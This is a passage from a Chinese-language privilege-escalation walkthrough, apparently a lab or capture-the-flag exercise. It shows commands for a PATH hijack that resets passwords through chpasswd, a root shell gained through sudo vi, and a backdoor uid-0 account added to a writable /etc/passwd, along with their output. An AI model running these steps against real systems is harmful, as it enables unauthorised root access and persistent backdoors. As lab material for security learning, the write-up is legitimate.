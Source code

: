
## 6）方法（六）user8
利用vi编辑器的SUDO权限！  

使用与上述相同的方法将所有用户的密码更改为12345，并在用户之间切换以检查更多漏洞，发现user8对vi 编辑器有sudo权限：


echo 'echo "user8:12345" | chpasswd' > ls 
chmod 777 ls
export PATH=/tmp:$PATH
cd /home/user5
./script 
su user8 
sudo -l

User user8 may run the following commands on osboxes:
    (root) NOPASSWD: /usr/bin/vi

sudo vi
按ESC+:
输入：!sh

:!sh
 id

uid=0(root) gid=0(root) groups=0(root)


## 7）方法（七）user7
利用/etc/passwd文件的可写权限

继续枚举用户，发现user7是gid为0的root组的成员！
已经从LinEnum扫描中知道/etc/passwd文件对用户是可写的！

user7可以编辑/etc/passwd文件：

echo 'echo "user7:12345" | chpasswd' > ls 
chmod 777 ls
export PATH=/tmp:$PATH
cd /home/user5
./script 
su user7

tail /etc/passwd 
su user7 
id

id
uid=1006(user7) gid=0(root) groups=0(root)

openssl passwd 12345
mPhL4na7YUg86
echo "dayu:mPhL4na7YUg86:0:0:root:/root:/bin/bash" >> /etc/passwd
cat passwd

su dayu
12345
